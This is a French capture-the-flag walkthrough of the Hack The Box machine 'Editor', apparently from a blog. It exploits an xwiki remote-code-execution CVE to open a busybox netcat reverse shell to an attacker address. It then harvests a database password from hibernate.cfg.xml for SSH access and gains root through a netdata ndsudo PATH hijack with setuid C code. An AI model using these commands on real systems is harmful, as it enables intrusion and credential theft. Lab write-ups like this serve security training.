












# Enumeration

On arrive sur une première page de présentation qui ne nous donne pas grand chose.


En revanche, en cliquant sur la page about, on est redirigé vers une page xwiki. Certes la page ne charge pas mais on voit tout de même que xwiki est présent.



En creusant un peu, on trouve un port de plus sur lequel on trouve notre instance xwiki.





En descendant en bas de la page, on peut voir la version de cette instance xwiki.



On va donc chercher à exploiter cette version de xwiki en essayant de trouver une vulnérabilité.

# Foothold

On cherche donc sur le site exploitDB et on trouve une CVE pour notre version de xwiki, par chance cela nous permet d'exécuter une RCE. On se rend donc sur github et on trouve une page qui nous permet de l'exploiter:

https://github.com/gunzf0x/CVE-2025-24893

On télécharge donc l'exploit et on le lance sur notre site editor.htb, après avoir lancé notre listener. Dans la commande on utilise busybox et non nc directement car busybox est plus souvent présent sur les box HTB.

Ici le listener est un listener metasploit, que l'on peut lancer avec le one-liner
```
msfconsole -x "use exploit/multi/handler; set LHOST ATTACKER_IP; set LPORT 4444; set PAYLOAD linux/x86/shell_reverse_tcp;options"
```

Pour ceux qui n'utilisent pas trop meterpreter, c'est un module de metasploit, cela devrait rendre l'exploitation plus facile ensuite (on peut obtenir autant de shells que l'on veut facilement, le shell est automatiquement stabilisé quand il est transformé en meterpreter, on peut lancer des modules sur le shell qu'on a récupéré, ...).

```
python3 exploit.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.10.10 4444 -e /bin/bash'
```

Et juste comme ça on obtient notre meterpreter. On récupère un shell que l'on améliore un peu:
```
python3 -c 'import pty;pty.spawn("/bin/bash");'
stty rows 24 cols 80
export TERM=xterm-256color
exec /bin/bash
```

# Pivoting / Lateral movement

On commence par chercher en regardant dans les recoins des dossiers, on cherche un peu dans les fichiers de config ce qu'on peut trouver. Si l'on ne trouve rien, on peut chercher sur internet les infos intéressantes. Or, il se trouve que les créateurs de xwiki nous donnent directement les infos dont on a besoin au lien suivant:
https://www.xwiki.org/xwiki/bin/view/Documentation/AdminGuide/Configuration/

Cela nous dit notamment de chercher dans le dossier `WEB-INF`, or il se trouve que l'on a croisé un dossier `WEB-INF` auparavant: `/usr/lib/xwiki/WEB-INF` dans lequel se trouve probablement le fichier qui nous intéresse.

On peut faire, pour trouver le fichier, un grep sur le dossier:
```
grep -R 'password' /usr/lib/xwiki/WEB-INF/
```
ou, pour les plus aventureux
```
grep -R 'password' /usr/lib/xwiki/
```

Mais on peut aussi cat un par un les fichiers de ce dossier.

Dans tous les cas, on finit par trouver un fichier:
```
cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml
```
qui nous donne des infos sur les db utilisées, notamment mysql.
```
    <property name="hibernate.connection.url">jdbc:mysql://localhost/xwiki?useSSL=false&amp;connectionTimeZone=LOCAL&amp;allowPublicKeyRetrieval=true</property>
    <property name="hibernate.connection.username">xwiki</property>
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.driver_class">com.mysql.cj.jdbc.Driver</property>
    <property name="hibernate.dbcp.poolPreparedStatements">true</property>
    <property name="hibernate.dbcp.maxOpenPreparedStatements">20</property>

    <property name="hibernate.connection.charSet">UTF-8</property>
    <property name="hibernate.connection.useUnicode">true</property>
    <property name="hibernate.connection.characterEncoding">utf8</property>

    <mapping resource="xwiki.hbm.xml"/>
    <mapping resource="feeds.hbm.xml"/>
    <mapping resource="instance.hbm.xml"/>
    <mapping resource="notification-filter-preferences.hbm.xml"/>
    <mapping resource="mailsender.hbm.xml"/>
```



Les autres sont commentées, c'est bien celle-ci qui est utilisée. Une fois cela trouvé il ne nous reste plus qu'à utiliser les identifiants pour query la db. Avant toute chose on tente de se connecter en su puis en ssh. (On tente le ssh car si le su nous est interdit le message d'erreur sera le même que pour un mauvais mdp, aucun moyen de savoir).
```
theEd1t0rTeam99
```

Et nous voilà sur le compte d'oliver.



# Privilege Escalation

En faisant une énumération des suids, on trouve une liste de fichiers intéressants, on lance la commande find.
```
find / -perm /4000 -print 2>/dev/null
```
Et on obtient une liste de plugins netdata.
```
/opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
/opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ioping
/opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
```



L'un d'eux retient notre attention: ndsudo. On regarde le fichier et on voit qu'il a bien le suid de set.



En cherchant rapidement sur internet on voit qu'une privesc est possible en utilisant ndsudo. En creusant encore plus, on trouve un site internet qui nous guide sur la privesc en utilisant ndsudo. Pour cela il nous suffit de placer un fichier exécutable malveillant, avec un nom dans la liste de ndsudo comme `nvme`.
https://github.com/dollarboysushil/CVE-2024-32019-Netdata-ndsudo-PATH-Vulnerability-Privilege-Escalation



On écrit dans un fichier c, sur notre machine car editor n'a pas l'outil gcc, le code suivant.
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```
Que l'on compile en un fichier nommé `nvme`.
```
gcc -o nvme exploit.c
```
Pour ensuite l'upload sur notre machine victime.
```
scp nvme oliver@editor.htb:/tmp/
```

On ajoute les droits d'exécution sur le fichier.
```
export PATH=/home/oliver:$PATH
chmod +x nvme
```
Puis on l'exécute
```
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

Et on obtient le root shell.


Et juste comme ça, on en a fini de la box!



